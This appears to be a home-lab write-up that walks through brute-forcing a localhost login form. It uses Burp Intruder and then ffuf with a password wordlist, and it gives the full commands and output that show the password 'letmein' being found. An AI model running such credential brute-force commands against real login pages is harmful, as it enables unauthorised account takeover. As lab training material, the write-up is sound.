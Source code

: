 # Attacking Authentication - Brute Force

- We have a login form with the user account named "Jeremy".

![image](https://github.com/thesinghsec/WebVulnLab-Home_Lab/assets/126919241/cb006310-f3a7-4490-a15f-08002bf63320)


- We need brute-forcing to crack the password of a user named "Jeremy"
- For this let's intercept the request to the Burp suite.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/27555f00-a3f2-4dc1-849d-2eb7dc32bc52)

- After sending a request to the intruder we selected the payload password parameter by clicking on Add.
- Next step is to add a wordlist to start the brute-forcing the password on the user "Jeremy"

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/504493fe-d6c9-4faf-bae3-d5ab3068574e)

- On adding the wordlist as the payload of passwords we selected Start attack.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/de3fdf99-75e2-468b-9530-bb236ef24812)

- There is a page length difference in the result hope we have got our password successfully

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/b9e7f512-6980-4eb9-a09d-3734430f205e)

- On trying with username `jeremy` and password `letmein` we got successfully logged in.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/229f2a26-a60f-43ac-ae69-5bd5e7ab2b50)
![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/534c981e-7bc8-4107-9353-f29e1b81bc21)

## Alternate

- To make the process brute-forcing faster we will copy the intercepted request and copy it to a file in the local machine.
- Make a change in copied request by renaming the password parameter to "FUZZ" and saving it.

![image](https://github.com/thesinghsec/WebVulnLab/assets/126919241/1b0d0668-9795-4b3f-9766-1395eef0a1e6)

- Now, we use a tool named "FFUF" to make the brute-forcing process faster.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt`

```bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Host: localhost
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Header           : Origin: http://localhost
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Sec-Fetch-Site: same-origin
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 20ms]
    * FUZZ: letmein

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 20ms]
    * FUZZ: qwerty

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: password

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 47ms]
    * FUZZ: baseball

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: superman

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: zxcvbnm

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 48ms]
    * FUZZ: 12345
------------snip------------------
[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: 222333

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 13ms]
    * FUZZ: armani

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: attack

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: anhyeuem

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 12ms]
    * FUZZ: zenith

[Status: 200, Size: 1814, Words: 495, Lines: 47, Duration: 11ms]
    * FUZZ: thomas1

[WARN] Caught keyboard interrupt (Ctrl-C)
```

- It is making numerous requests per second we need to filter out the "size: 1814" for getting clean results.
- Command: `ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814`

``` bash
└─$ ffuf -request req.txt -request-proto http -w /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt -fs 1814

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.0.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://localhost/labs/a0x01.php
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/SecLists-master/Passwords/xato-net-10-million-passwords-10000.txt
 :: Header           : Sec-Fetch-User: ?1
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate
 :: Header           : Connection: close
 :: Header           : Cookie: PHPSESSID=bcbc6597490163fa9ed394d5f5145dcd
 :: Header           : Sec-Fetch-Mode: navigate
 :: Header           : Sec-Fetch-Dest: document
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://localhost
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Referer: http://localhost/labs/a0x01.php
 :: Header           : Sec-Fetch-Site: same-origin
 :: Header           : Host: localhost
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
 :: Data             : username=jeremy&password=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 1814
________________________________________________

[Status: 200, Size: 1808, Words: 494, Lines: 47, Duration: 4ms]
    * FUZZ: letmein

:: Progress: [10000/10000] :: Job [1/1] :: 3846 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```
- We successfully cracked the password "letmein".
